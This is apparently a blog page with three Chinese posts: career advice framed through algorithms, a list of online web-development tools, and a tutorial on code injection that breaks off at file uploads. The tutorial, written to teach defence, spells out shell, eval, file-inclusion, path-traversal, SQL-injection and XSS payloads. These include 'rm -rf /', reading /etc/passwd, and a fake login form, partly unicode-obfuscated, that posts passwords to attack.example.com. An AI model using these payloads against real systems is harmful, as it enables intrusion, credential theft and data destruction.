我深深地发现，对于我国这样从小被父母和老师安排各种事情长大的人，当有一天，父母和老师都跟不上的时候，我们几乎完全不知道怎么去做选择。而我最近也离开了亚马逊，换了一个工作。又正值年底，就像去年的那篇《[三个故事和三个问题](https://coolshell.cn/articles/6142.html)》一样，让我想到写一篇这样的文章。

目录


[几个例子](https://coolshell.cn/articles/8790.html#几个例子)[排序算法](https://coolshell.cn/articles/8790.html#排序算法)[贪婪算法](https://coolshell.cn/articles/8790.html#贪婪算法)[动态规划](https://coolshell.cn/articles/8790.html#动态规划)[Dijkstra最短路径](https://coolshell.cn/articles/8790.html#Dijkstra最短路径)[算法就是Trade-Off](https://coolshell.cn/articles/8790.html#算法就是Trade-Off)

#### 几个例子

当我们在面对各种对选择的影响因子的时候，如：城市，公司规模，公司性质，薪水，项目，户口，技术，方向，眼界…… 你总会发现，你会在几个公司中纠结一些东西，举几个例子：

- 某网友和我说，他们去上海腾讯，因为腾讯的规模很大，但却发现薪水待遇没有豆瓣高（低的还不是一点），如果以后要换工作的话，起薪点直接关系到了以后的高工资。我说那就去豆瓣吧，他说豆瓣在北京，污染那么严重，又没有户口，生存环境不好。我说去腾讯吧，他说腾讯最近组织调整，不稳定。我说那就去豆瓣吧，慢公司，发展很稳当。他说，豆瓣的盈利不清楚，而且用Python，自己不喜欢。我说，那就去腾讯吧，……

- 还有一网友和我说，他想回老家，因为老家的人脉关系比较好，能混得好。但又想留在大城市，因为大城市可以开眼界。


- 另一网友和我说，他想进外企，练练英语，开开眼界，但是又怕在外企里当个螺丝钉，想法得不到实施。朋友拉他去创业，觉得创业挺好的，锻炼大，但是朋友做的那个不知道能不能做好。

- 还有一网友在创新工场的某团队和考研之间抉择，不知道去创新工场行不行，觉得那个项目一般，但是感觉那个团队挺有激情的，另一方面觉得自己的学历还不够，读个研应该能找到更好的工作。

- 还有一些朋友问题我应该学什么技术？不应该学什么技术？或是怎么学会学得最快，技术的路径应该是什么？有的说只做后端不做前端，有的说，只做算法研究，不做工程，等等，等等。因为他们觉得人生有限，术业有专攻。

- 等等，等等……

我个人觉得，如果是非计算机科班出生的人不会做选择，不知道怎么走也罢了，但是我们计算机科班出生的人是学过算法的，**懂算法的人应该是知道怎么做选择的**。

#### 

#### 排序算法

你不可能要所有的东西，所以你只能要你最重要的东西，你要知道什么东西最重要，你就需要对你心内的那些欲望和抱负有清楚的认识，不然，你就会在纠结中度过。

所以，在选择中纠结的人有必要参考一下排序算法。

- 首先，你最需要参考的就是“冒泡排序”——这种算法的思路就是每次冒泡出一个最大的数。所以，你有必要问问你自己，面对那些影响你选择的因子，如果你只能要一个的话，你会要哪个？而剩下的都可以放弃。于是，当你把最大的数，一个一个冒泡出来的时候，并用这个决策因子来过滤选项的时候，你就能比较容易地知道知道你应该选什么了。**这个算法告诉我们，人的杂念越少，就越容易做出选择。**

- 好吧，可能你已茫然到了怎么比较两个决策因子的大小，比如：你分不清楚，工资>业务前景吗？业务前景>能力提升吗？所以你完全没有办法进行冒泡法。那你，你不妨参考一个“快速排序”的思路——这个算法告诉我们，我们一开始并不需要找到最大的数，我们只需要把你价值观中的某个标准拿出来，然后，把可以满足这个价值的放到右边，不能的放到左边去。比如，你的标准是：工资大于5000元&&业务前景长于3年的公司，你可以用这个标准来过滤你的选项。然后，你可以再调整这个标准再继续递归下去。**这个算法告诉我们，我们的选择标准越清晰，我们就越容易做出选择**。

这是排序算法中最经典的两个算法了，面试必考。相信你已烂熟于心中了。所以，我觉得你把这个算法应用于你的人生选择也应该不是什么问题。关于在于，你是否知道自己想要的是什么？

排序算法的核心思想就是，**让你帮助你认清自己最需要的是什么，认清自己最想要的是什么，然后根据这个去做选择**。

#### 贪婪算法

所谓贪婪算法，是一种在每一步选择中都采取在当前状态下最好或最优（即最有利）的选择（注意：是当前状态下），从而希望导致结果是最好或最优的算法。贪婪算法最经典的一个例子就是[哈夫曼编码](https://coolshell.cn/articles/7459.html)。

对于人类来说，一般人在行为处事的时候都会使用到贪婪算法，

- 比如在找零钱的时候，如果要找补36元，我们一般会按这样的顺序找钱：20元，10元，5元，1元。

- 或者我们在过十字路口的时候，要从到对角线的那个街区时，我们也会使用贪婪算法——哪边的绿灯先亮了我们就先过到那边去，然后再转身90度等红灯再过街。

这样的例子有很多。对于选择中，大多数人都会选用贪婪算法，因为这是一个比较简单的算法，未来太复杂了，只能走一步看一步，在当前的状况下做出最利于自己的判断和选择即可。

有的人会贪婪薪水，有的人会贪婪做的项目，有的人会贪婪业务，有的人会贪婪职位，有的人会贪婪自己的兴趣……这些都没什么问题。贪婪算法并没有错，虽然不是全局最优解，但其可以让你找到局部最优解或是次优解。其实，有次优解也不错了。**贪婪算法基本上是一种急功近利的算法，但是并不代表这种算法不好，如果贪婪的是一种长远和持续，又未尝不可呢？**。

#### 动态规划

但是我们知道，对于大部分的问题，贪婪法通常都不能找出最优解，因为他们一般没有测试所有可能的解。**因为贪婪算法是一种短视的行为，只会跟据当前的形式做判断，也就是过早做决定**，因而没法达到最佳解。

动态规划和贪婪算法的最大不同是，贪婪算法做出选择，不能在过程优化。动态规划则会保存以前的运算结果，并根据以前的结果对当前进行选择，会动态优化功能。

动态规划算法至少告诉我们两个事：

1）**承前启后非常重要，**当你准备去做遍历的时候，你的上次的经历不但能开启你以后的经历，而且还能为后面的经历所用。你的每一步都没有浪费。

2）**是否可以回退也很重要**。这意思是——如果你面前有两个选择，一个是A公司一个是B公司，如果今天你选了A公司，并不是你完全放弃了B公司。而是，你知道从A公司退出来去B公司，会比从B公司退出来去A公司要容易一些。

比如说：你有两个offer，一个是Yahoo，一个是Baidu，上述的第一点会让我们思考，我以前的特长和能力更符合Yahoo还是Baidu？而Yahoo和Baidu谁能给我开启更大的平台？上述的第二点告诉我们，是进入Yahoo后如果没有选好，是否还能再选择Baidu公司？还是进入Baidu公司后能容易回退到Yahoo公司？

#### **Dijkstra**最短路径

最短路径是一个Greedy + DP的算法。相当经典。这个算法的大意如下：

1）在初始化的时候，所有的结点都和我是无穷大，默认是达不到的。

2）从离自己最近的结点开始贪婪。

3）走过去，看看又能到达什么样的结点，计算并更新到所有目标点的距离。

4）再贪婪与原点最短的结点，如此反复。

这个算法给我们带来了一些这样的启示：

- 有朋友和我说过他想成为一个架构师，或是某技术领域的专家，并会踏踏实实的向这个目标前进，永不放弃。我还是鼓励了他，但我也告诉他了这个著名的算法，我说，这个算法告诉你，架构师或某领域的专家对你来说目前的距离是无穷大，他们放在心中，先看看你能够得着的东西。**所谓踏实，并不是踏踏实实追求你的目标，而是踏踏实实把你够得着看得见的就在身边的东西干好。**我还记得我刚参加工作，从老家出来的时候，从来没有想过要成为一个技术牛人，也从来没有想过我的博客会那么的有影响力，在做自己力所能及，看得见摸得着的事情，我就看见什么技术就学什么，学着学着就知道怎么学更轻松，怎么学更扎实，这也许就是我的最短路径。

- 有很多朋友问我要不要学C++，或是问我学Python还是学Ruby，是不是不用学前端，等等。这些朋友告诉我，他们不可能学习多个语言，学了不用也就忘了，而且术业有专攻。这并没有什么不对的，只是我个人觉得，学习一个东西没有必要只有两种状态，一种是不学，另一种是精通。了解一个技术其实花不了多少时间，我学C++的目的其实是为了更懂Java，学TCP/IP协议其实是为了更懂Socket编程，很多东西都是连通和相辅相成的，学好了C/C++/Unix/TCP等这些基础技术后，我发现到达别的技术路径一下缩短了（这就是为什么[我用两天时间就可以了解Go语言的原因](https://coolshell.cn/articles/8489.html)）。**这就好像这个算法一样，算法效率不高，也许达到你的目标，你在一开始花了很长时间，遍历了很多地方，但是，这也许这就是你的最短路径（**比起你达不到要好得多**）**。

#### 算法就是Trade-Off

你根本没有办法能得到所有你想得到的东西，**任何的选择都意味着放弃**——**当你要去获得一个东西的时候，你总是需要放弃一些东西**。**人生本来就是一个跷跷板，一头上，另一头必然下**。这和我们做软件设计或算法设计一样，用时间换空间，用空间换时间，还有CAP理论，总是有很多的Trade-Off，正如这个短语的原意一样——**你总是要用某种东西去交易某种东西**。

我们都在用某种东西在交易我们的未来，有的人用自己的努力，有的人用自己的思考，有的人用自己的年轻，有的人用自己的自由，有的人用自己的价值观，有的人用自己的道德…… …… 有的人在交换金钱，有的人在交换眼界，有的人在交换经历，有的人在交换地位，有的人在交换能力，有的人在交换自由，有的人在交换兴趣，有的人在交换虚荣心，在交换安逸享乐…… ……

**每个人有每个人的算法，每个算法都有每个算法的purpose，就算大家在用同样的算法，但是每个人算法中的那些变量、开关和条件都不一样，得到的结果也不一样。我们就是生活在Matrix里的一段程序，我们每个人的算法决定着我们每个人的选择，我们的选择决定了我们的人生**。

**2012年就要过去了，祝大家新年快乐！**

插图来自电影 Life of Pi

（全文完）

# WEB工程师的工具箱

#####  [2012年12月19日 ](https://coolshell.cn/articles/8767.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [41 条评论](https://coolshell.cn/articles/8767.html#comments) 65,491 人阅读

本文出自[Ivan Zuzak](http://ivanzuzak.info/) 的《[The Web engineer’s online toolbox](http://ivanzuzak.info/2012/11/18/the-web-engineers-online-toolbox.html)》，作者给了一个各种可以用来进行开发、测试、调试以及文档编排的在线工具集。（注：我发现CSDN上已经有了这篇文章《[Web工程师必备的18款工具](http://www.csdn.net/article/2012-11-19/2811992)》，但可惜的是这篇文章并不全（原文后来被更新到了33个工具），而且其中并没有包括原文评论中出现的所有工具，所以，我一并补全了更出来，一共40多个工具）

#### **Web工程师在线工具箱**

- [**RequestBin**](http://requestb.in/)**：**允许你创建一个URL，利用这款工具进行收集请求，然后通过个性化方式进行检查。

- [**Hurl**](http://hurl.it/)**：**发出HTTP请求，输入URL，设置标题，查看响应，最后分享给其他人。类似的工具有：[REST test test](http://resttesttest.com/), [Apigee console](https://apigee.com/console/others).。

- [**Httpbin**](http://httpbin.org/)**：**HTTP请求&响应服务，涵盖所有的HTTP方案（例如不同的HTTP verbs、状态代码和重定向）。类似工具：[UrlEcho](http://ivanzuzak.info/urlecho/)。

- [**REDbot**](http://redbot.org/)**：**这是一个机器人工具，帮助用户检查HTTP资源，可查看它的操作情况，指出常见的问题并提出改进。类似工具：[HTTP lint](http://zamez.org/httplint)。

- [**WebGun**](http://webgun.io/)**：**用于创建webhooks模板的API。类似工具：[UrlReq](https://github.com/izuzak/urlreq)。

- **[Webscript](https://www.webscript.io/)** 自选一个url，填一段Lua代码，就能对访问做各种respond，还可以主动运行任务，cron job等等…


- **[ClickHooks](http://www.clickhooks.com/)** 这是一个短网址服务， 当用户访问了你的这个短网址跳转链接，服务器会通过HTTP POST的方式回调你的一个URL。这也是一种WebHooks方式。（陈皓注：所谓WebHooks，你可以理解为一种trigger，或是一种handler，比如当你你提交了代码，会调用某个URL链接以POST的方式告诉那个网站你提交了代码（如：发一个twitter 之类的，或是通知某个bug tracker系统））

- **[MailHooks](https://mailhooks2.appspot.com/)** 让你可以通过HTTP POST方法收电子邮件（又叫WebHooks），你可以为你的一个邮件地址创建N多的hooks，当一个邮件收到了，可以把这个邮件以POST的方式发到你的某个URL上去。

- **[Quilla](http://a.quil.la/)** 提供一个人们可以找到你的短网站服务，在那里，当人们提交到你的短网址上的请求会给你发邮件。好像是一种HTTP到SMTP的代理服务。

- [**Apify**](https://apify.heroku.com/resources)**：**公开锁定在HTML文档没有任何API数据集。APIfy从结构标记中提取数据，并将其转换为JSON APIs。

- [**Unicorn**](http://validator.w3.org/unicorn/)**：**W3C统一的验证程序，可在各种流行的HTML和CSS验证器中执行各种检查。类似工具：[HTML lint](http://lint.brihten.com/html/)。

- **[JSONLint](http://jsonlint.com/)** JSON 格式验证程序

- [**Feed validator**](http://validator.w3.org/feed/)**：**支持W3C验证，为RSS和ATOM提供阅读源。

- [**Link checker**](http://validator.w3.org/checklink)**：**从网站中提取链接（递归）并确保没有链接被定义为两次（重复定义），所有的链接被引用并警告HTTP重新定向。

- [**Host tracker**](http://www.host-tracker.com/)**：**通过分布式ping/跟踪检查、定期监测、邮件/SMS /IM通知和统计进行网站检测性服务。类似工具有：[Down for everyone or just me](http://www.downforeveryoneorjustme.com/), [Pimgdom ping service](http://tools.pingdom.com/ping/)

- **[ViewDNS](http://www.viewdns.info/)** 一组 DNS 和网络工具，如：反向IP解析，DNS记录查询或traceroute之类的。

- **[Necrohost](http://www.necrohost.com/)** 一个URL列表来模拟不同网络链接的问题，如：响应慢，无法解析DNS，或是404什么的。

- **[Mirrorrr](https://code.google.com/p/mirrorrr/)** 一个可以用来镜像某网页的应用（经常被国人用来搞Web 代理来翻墙）。

- **[SSL Checker](http://certlogik.com/ssl-checker/)** 测试SSL认证

- **[CSR/Cert decoder](http://certlogik.com/decoder/)** 对你的CSR和SSL认证decode检查。

- **[Loadzen](http://loadzen.com/)** Web压力测试工具（注：以前酷壳介绍过《[十个Web压力测试工具](https://coolshell.cn/articles/2589.html)》）

- [**Pingdom Full page test**](http://tools.pingdom.com/fpt/)**：**允许用户测试网页记载时间、分析、监控，发现瓶颈并导出HAR格式的结果。类似工具：[Web page test](https://www.webpagetest.org/)。

- **[Google PageSpeed Insights](https://developers.google.com/speed/pagespeed/insights)** Analyzes the content of a web page, then generates suggestions to make that page faster.

- [**HAR viewer**](http://www.softwareishard.com/har/viewer/)**：**通过 HTTP 追踪工具创建可视化的HTTP Archive (HAR)日志文件。

- [**CORS proxy**](http://www.corsproxy.com/)**：**通常会由于相同的域而被阻止，而这款工具在网站上允许JavaScript代码访问其他域上的资源，

- [**Browserling**](https://browserling.com/)**：**支持使用所有主要浏览器以及各种版本进行交互式跨浏览器测试。

- [**WebSocket Echo Test**](http://www.websocket.org/echo.html)**:** 从浏览器定向到WebSocket echo服务器进行WebSocket连接测试。

- [**YQL**](http://developer.yahoo.com/yql/)**：**极富表现力类似于SQL的语言，允许您查询、筛选和联接数据跨Web服务。

- **[Webshell](http://webshell.io/)** 使用命令行脚本的方式来调用一些Web API。

- [**Yahoo Pipes**](http://pipes.yahoo.com/pipes/)**：**一个图形化的用户界面，用于创建数据混搭，生成聚合Web源，Web页面和其他服务。

- [**Apiary**](http://apiary.io/)**：**语言和工具用于生成REST API文档及进行交互式督查。类似工具：[Swagger](http://swagger.wordnik.com/)。

- **[JSFiddle](http://jsfiddle.net/)** 一个在线的代码编辑可以让你编译一些HTML, CSS 和 JavaScript的东西，并演示之。相似工具: [JSBin](http://jsbin.com/)

- [Google Feed API](https://developers.google.com/feed/v1/jsondevguide) 你可以使用这个API来查询有RSS Feed的网站 ([example](https://ajax.googleapis.com/ajax/services/feed/lookup?v=1.0&q=http://ivanzuzak.info/))，或是搜索有RSS Feed([example](https://ajax.googleapis.com/ajax/services/feed/find?v=1.0&q=ivan zuzak)) ，或是把JSON变成一个JSON返回 ([example](https://ajax.googleapis.com/ajax/services/feed/load?v=1.0&q=http://ivanzuzak.info/atom.xml))

#### 未在列表的工具

- [Fiddler](http://www.fiddler2.com/fiddler2/) — 可能是最强大最好用的Web调试工具之一，它能记录所有客户端和服务器的http和https请求，允许你监视，设置断点，甚至修改输入输出数据. 使用Fiddler无论对开发还是测试来说，都有很大的帮助。.

- [960 grid system generator](https://grids.heroku.com/) 和 [CSS reset](http://meyerweb.com/eric/tools/css/reset/) — 两个关注于Web站点设计的工具。

- [NuvolaBase](http://www.nuvolabase.com/site/index.html) — 一个可以共享个人私有数据的解决方案。正如作者所说，这不是一个开发工具。

- [Open exchange rates](https://openexchangerates.org/) — 一个和汇率货币相关的JSON式的API。这样的API你可以到 [Programmable Web](http://www.programmableweb.com/) 上查找。

- [Workflowy](https://workflowy.com/), [LastCalc](http://www.lastcalc.com/), [Codepad](http://codepad.org/), [Mailinator](http://www.mailinator.com/) and [10MinuteMail](http://10minutemail.com/), [One time secret](https://onetimesecret.com/) and [CopyPasteCharacter](http://copypastecharacter.com/) — 这些App似乎和Web开发没什么关系。

- [Browsershots](https://browsershots.org/) — 一个用来测试网页在不同平台下的工具。（参看）

- [Scriptular](http://scriptular.com/) and [Rubular](http://rubular.com/) — 正则表达式工具，这样的工具太多了，如： [ReFiddle](http://refiddle.com/), [Regex pal](http://regexpal.com/) and [Txt2Re](http://www.txt2re.com/)。

（全文完）

# 程序员疫苗：代码注入

#####  [2012年12月10日 ](https://coolshell.cn/articles/8711.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [63 条评论](https://coolshell.cn/articles/8711.html#comments) 71,894 人阅读

几个月在[我的微博](https://weibo.com/haeol)上说过要建一个程序员疫苗网站，希望大家一起来提交一些错误示例的代码，来帮助我们新入行的程序员，不要让我们的程序员一代又一代的再重复地犯一些错误。很多程序上错误就像人类世界的病毒一样，我们应该给我们的新入行的程序员注射一些疫苗，就像给新生儿打疫苗一样，希望程序员从入行时就对这些错误有抵抗力。

我的那个疫苗网站正在建议中（不好意思拖了很久），不过，我可以先写一些关于程序员疫苗性质的文章，也算是热热身。希望大家喜欢，先向大家介绍第一注疫苗——代码注入。

目录


[Shell注入](https://coolshell.cn/articles/8711.html#Shell注入)[SQL注入](https://coolshell.cn/articles/8711.html#SQL注入)[跨网站脚本注 入](https://coolshell.cn/articles/8711.html#跨网站脚本注_入)[上传文件](https://coolshell.cn/articles/8711.html#上传文件)[URL跳转](https://coolshell.cn/articles/8711.html#URL跳转)

#### Shell注入

我们先来看一段perl的代码：

[perl]use CGI qw(:standard);
$name = param(‘name’);
$nslookup = "/path/to/nslookup";
print header;
if (open($fh, "$nslookup $name|")) {
 while (<$fh>) {
print escapeHTML($_);
print "<br>\n";
}
close($fh);
}[/perl]

如果用户输入的参数是：


coolshell.cn%20%3B%20/bin/ls%20-l


那么，这段perl的程序就成了：


/path/to/nslookup coolshell.cn ; /bin/ls -l


我们再来看一段PHP的程序：


**$myvar** = 'somevalue';

**$x** = **$_GET[**'arg'];

**eval**('$myvar = ' . **$x** . ';');


“`eval`“的参数将会视同PHP处理，所以额外的命令可被添加。例如：如果”arg”如果被设成”`10; system('rm -rf /')`“，后面的”`system('rm -rf /')`“代码将被运行，这等同在服务器上运行开发者意料外的程序。（关于rm -rf /，你懂的，可参看“[一个空格引发的悲剧](https://coolshell.cn/articles/4875.html)”）

再来看一个PHP的代码


**$isadmin**= **false**;

...

...

**foreach** (**$_GET** **as** **$key** => **$value**) {

  **$$key** = **$value**;

}


如果攻击者在查询字符串中给定”isadmin=1″，那$isadmin将会被设为值 “1”，然后攻击值就取得了网站应用的admin权限了。

再来看一个PHP的示例：


**$action** = 'login';

   **if** (__isset( **$_GET[**'act'] ) )

​      **$action** = **$_GET[**'act'];

   **require**( **$action** . '.php' ); 


这个代码相当危险，攻击者有可能可以干这些事：

- `/test.php?act=**http://evil/exploit**` – 注入远程机器上有漏洞的文件。
- `/test.php?act=**/home/www/bbs/upload/exploit**` – 从一个已经上载、叫做exploit.php文件运行其代码。
- `/test.php?act=**../../../../etc/passwd%00**` – 让攻击者取得该UNIX系统目录检索下密码文件的内容。一个使用空元字符以解除`.php`扩展名限制，允许访问其他非 .php 结尾文件。 (PHP默认值”magic_quotes_gpc = On”可以终止这种攻击)

这样的示例有很多，只要你的程序有诸如：`system()`、`StartProcess()`、`java.lang.Runtime.exec()`、`System.Diagnostics.Process.Start()`以及类似的应用程序接口，都是比较危险的，最好不要让其中的字符串去拼装用户的输入。

PHP提供`escapeshellarg()`和`escapeshellcmd()`以在调用方法以前进行编码。然而，实际上并不建议相信这些方法是安全的 。

#### SQL注入

SQL injection，是发生于应用程序之数据库层的安全漏洞。简而言之，是在输入的字符串之中注入SQL指令，在设计不良的程序当中忽略了检查，那么这些注入进去的指令就会被数据库服务器误认为是正常的SQL指令而运行，因此遭到破坏。

在应用程序中若有下列状况，则可能应用程序正暴露在SQL Injection的高风险情况下：

1. 在应用程序中使用字符串联结方式组合SQL指令（如：引号没有转义）。
2. 在应用程序链接数据库时使用权限过大的帐户（如：很多开发人员都喜欢用sa（最高权限的系统管理员帐户）连接Microsoft SQL Server数据库）。
3. 在数据库中开放了不必要但权力过大的功能（例如在Microsoft SQL Server数据库中的xp_cmdshell延伸预存程序或是OLE Automation预存程序等）
4. 过于信任用户所输入的数据，未限制输入的字符数，以及未对用户输入的数据做潜在指令的检查。

例程：

某个网站的登录验证的SQL查询代码为

strSQL = "**SELECT** * **FROM** users

**WHERE** (name = '" + userName + "') and (pw = '"+ passWord +"');"


用户在登录时恶意输入如下的的用户名和口令：

userName = "' OR '1'='1";


passWord = "' OR '1'='1";


此时，将导致原本的SQL字符串被解析为：

strSQL = "**SELECT** * **FROM** users

**WHERE** (name = '' OR '1'='1') and (pw = '' OR '1'='1');"


也就是实际上运行的SQL命令会变成下面这样的，因此导致无帐号密码，也可登录网站。

strSQL = "**SELECT** * **FROM** users;"


这还不算恶劣的，真正恶劣的是在你的语句后再加一个自己的语句，如：


username= "' ; **DELETE** **FROM** users; --";


这样一来，要么整个数据库的表被人盗走，要么被数据库被删除。

**所以SQL注入攻击被俗称为黑客的填空游戏**。你是否还记得酷壳[这篇文章里的SQL注入](https://coolshell.cn/articles/6639.html)？


当他们发现一个网站有SQL注入的时候，他们一般会干下面的事：

- 盗取数据表中的数据，例如个人机密数据（信用卡，身份证，手机号，通讯录……），帐户数据，密码等，获得用户的数据和信息后对这些用户进行“社会工程学”活动（如：[我前两天在微信上亲身经历](https://coolshell.cn/articles/8638.html)）。

- 取得系统管理员权限（例如ALTER LOGIN sa WITH PASSWORD=’xxxxxx’）。

- 在数据库中的数据中插入一些HTML/JS代码，有可能得以在网页加入恶意链接以及XSS，这样一来就让访问者被黑。

- 经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统（例如：MS SQL Server的 xp_cmdshell “net stop iisadmin”可停止服务器的IIS服务）。甚至破坏硬盘数据，瘫痪全系统（例如xp_cmdshell “FORMAT C:”）。

现在的黑客比较坏，瘫痪系统的事，他们干的越来越少，因为没什么利益，他们希望通过获取用户的帐号信息后，转而攻击用户别的帐号，如游戏帐号，网银帐号，QQ帐号等等他们可以获利的事情（这就是为什么我希望大家[在不站点上使用不同的口令](https://coolshell.cn/articles/2428.html)，甚至不同的用户信息的原因）

**如何避免**

- 在组合SQL字符串时，先针对所传入的参数作字符转义（如：将单引号字符取代为连续2个单引号字符）。如果使用PHP开发网页程序的话，亦可打开PHP的Magic quote功能自动将所有的网页传入参数，将单引号字符取代为连续2个单引号字符。**如果可能应该过滤以下字符：分号“;”，两个减号“–”，单引号“’”，注释“/\* … \*/”**。（当然，因为注入攻击一般用闭合的引号来玩，所以把引号转义了应该就没有什么问题了）

- 更换危险字符。例如在PHP通过`addslashes()`函数保护SQL注入。

- 限制用户输入的长度，限制用户输入的取值范围。

- 为当前应用建立权限比较小的数据库用户，这样不会导致数据库管理员丢失。

- 把数据库操作封装成一个Service，对于敏感数据，对于每个客户端的IP，在一定时间内每次只返回一条记录。这样可以避免被拖库。

#### 

#### 跨网站脚本注 入

**跨网站脚本**（**Cross-site** scripting，通常简称为XSS或跨站脚本或跨站脚本攻击）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java， VBScript， ActiveX， Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

假如我们有这样一段PHP的代码：


**$username** = **$_GET[**'username'];

**echo** '<div> Welcome, ' . **$username** . '</div>';


那么我们可以这样来注入：

http://trustedSite.example.com/welcome.php?username=<Script Language=”Javascript”>alert(“You’ve been attacked!”);</Script>

甚至这样：

http://trustedSite.example.com/welcome.php?username=<div id=”stealPassword”>Please Login:<form name=”input” action=”http://attack.example.com/stealPassword.php” method=”post”>Username: <input type=”text” name=”username” /><br/>Password: <input type=”password” name=”password” /><input type=”submit” value=”Login” /></form></div>

这会让网页显示以下内容：


<div class="header"> Welcome,    <div id="stealPassword">Please Login:        <form name="input" action="attack.example.com/stealPassword.php" method="post">            Username: <input type="text" name="username" />            <br/>            Password: <input type="password" name="password" />            <input type="submit" value="Login" />        </form>    </div></div>


注入的代码还有可能变种为如下这种更为隐蔽的方式(unicode码)：

trustedSite.example.com/welcome.php?username=<script+type=”text/javascript”>

document.write(‘\u003C\u0064\u0069\u0076\u0020\u0069\u0064\u003D\u0022\u0073

\u0074\u0065\u0061\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064

\u0022\u003E\u0050\u006C\u0065\u0061\u0073\u0065\u0020\u004C\u006F\u0067

\u0069\u006E\u003A\u003C\u0066\u006F\u0072\u006D\u0020\u006E\u0061\u006D

\u0065\u003D\u0022\u0069\u006E\u0070\u0075\u0074\u0022\u0020\u0061\u0063

\u0074\u0069\u006F\u006E\u003D\u0022\u0068\u0074\u0074\u0070\u003A\u002F

\u002F\u0061\u0074\u0074\u0061\u0063\u006B\u002E\u0065\u0078\u0061\u006D

\u0070\u006C\u0065\u002E\u0063\u006F\u006D\u002F\u0073\u0074\u0065\u0061

\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u002E\u0070\u0068

\u0070\u0022\u0020\u006D\u0065\u0074\u0068\u006F\u0064\u003D\u0022\u0070

\u006F\u0073\u0074\u0022\u003E\u0055\u0073\u0065\u0072\u006E\u0061\u006D

\u0065\u003A\u0020\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079

\u0070\u0065\u003D\u0022\u0074\u0065\u0078\u0074\u0022\u0020\u006E\u0061

\u006D\u0065\u003D\u0022\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065

\u0022\u0020\u002F\u003E\u003C\u0062\u0072\u002F\u003E\u0050\u0061\u0073

\u0073\u0077\u006F\u0072\u0064\u003A\u0020\u003C\u0069\u006E\u0070\u0075

\u0074\u0020\u0074\u0079\u0070\u0065\u003D\u0022\u0070\u0061\u0073\u0073

\u0077\u006F\u0072\u0064\u0022\u0020\u006E\u0061\u006D\u0065\u003D\u0022

\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u002F\u003E

\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079\u0070\u0065\u003D

\u0022\u0073\u0075\u0062\u006D\u0069\u0074\u0022\u0020\u0076\u0061\u006C

\u0075\u0065\u003D\u0022\u004C\u006F\u0067\u0069\u006E\u0022\u0020\u002F

\u003E\u003C\u002F\u0066\u006F\u0072\u006D\u003E\u003C\u002F\u0064\u0069\u0076\u003E\u000D’);</script>

**XSS的攻击主要是通过一段JS程序得用用户已登录的cookie去模拟用户的操作（甚至偷用户的cookie）**。这个方式可以让用户在自己不知情的情况下操作了自己不期望的操作。如果是网站的管理员中招，还有可能导致后台管理权限被盗。关于其中的一些细节可以参看《[新浪微博的XSS攻击](https://coolshell.cn/articles/4914.html)》一文。XSS攻击是程序员有一糊涂就很容易犯的错误，你还可以看看网上的《[腾讯微博的XSS攻击](https://www.cnblogs.com/kingthy/archive/2011/08/20/2147355.html)》。

XSS攻击在论坛的用户签档里面（使用img标签）也发生过很多次，包括像一些使用bcode的网站，很有可能会被注入一些可以被浏览器用来执行的代码。包括CSS都有可能被注入javascript代码。

不要以为XSS攻击是我们的程序没有写好，有时候，我们会引用别人站点上的js文件，比如：放一个天气预报的小Widget的js，或是一个流量监控，或是一段广告的js文件。你不知道这些东西是不是有问题，如果有恶意的话，这就是你自己主动注入攻击代码了。

**另外，XSS攻击有一部分是和浏览器有关的。**比如，如下的一些例子，你可能从来都没有想过吧？（**更多的例子可以参看酷壳很早以前的这篇文章《[浏览器HTML安全列表](https://coolshell.cn/articles/2416.html)》**）


<table background=”javascript:alert(1)”><meta charset=”mac-farsi”>¼script¾alert(1)¼/script¾


XSS攻击通常会引发CSRF攻击。CSRF攻击主要是通过在A站上设置B站点上的链接，通过使用用户在B站点上的登录且还没有过期的cookie，从而使得用户的B站点被攻击。（这得益于现在的多Tab页的浏览器，大家都会同时打开并登录很多的网站，而这些不同网站的页面间的cookie又是共享的）

于是，如果我在A站点内的某个贴子内注入这么一段代码：


很有可能你就在访问A站的这个贴子时，你的网银可能向我转了一些钱。

**如何避免**

要防止XSS攻击，一般来说有下面几种手段：

- 严格限制用户的输入。最好不要让用户输入带标签的内容。最好不要让用户使用一些所见即所得的HTML编辑器。

- 严格过滤用户的输入。如：
  - PHP的`htmlentities()或是htmlspecialchars()或是strip_tags()`。
  - Python的`cgi.escape()`
  - ASP的`Server.HTMLEncode()`。
  - Node.js的node-validator。
  - Java的[xssprotect](https://code.google.com/p/xssprotect/)。

- 在一些关键功能，完全不能信任cookie，必需要用户输入口令。如：修改口令，支付，修改电子邮件，查看用户的敏感信息等等。

- 限制cookie的过期时间。

- 对于CSRF攻击，一是需要检查http的reference header。二是不要使用GET方法来改变数据，三是对于要提交的表单，后台动态生成一个随机的token，这个token是攻击者很难伪造的。（对于token的生成，建议找一些成熟的lib库）

另外，你可能觉得网站在处理用户的表单提交就行了，其实不是，**想一想那些Web Mail，我可以通过别的服务器向被攻击用户发送有JS代码、图片、Flash的邮件到你的邮箱，你打开一看，你就中招了**。所以，WebMail一般都禁止显示图片和附件，这些都很危险，只有你完全了解来源的情况下才能打开。**电子邮件的SMTP协议太差了，基本上无法校验其它邮件服务器的可信度，我甚至可以自己建一个本机的邮件服务器，想用谁的邮件地址发信就用谁的邮件地址发信**。**所以，我再次真诚地告诉大家，请用gmail邮箱**。别再跟我说什么QQMail之类的好用了。

#### 上传文件

上传文件是一个很危险的功能，尤其是你如果不校验上传文件的类型的话，你可能会中很多很多的招，这种攻击相当狠。**试想，如果用户上传给你一个PHP、ASP、JSP的文件，当有人访问这个文件时，你的服务器会解释执行之，这就相当于他可以在你的服务器上执行一段程序。这无疑是相当危险的。**

举个例子：


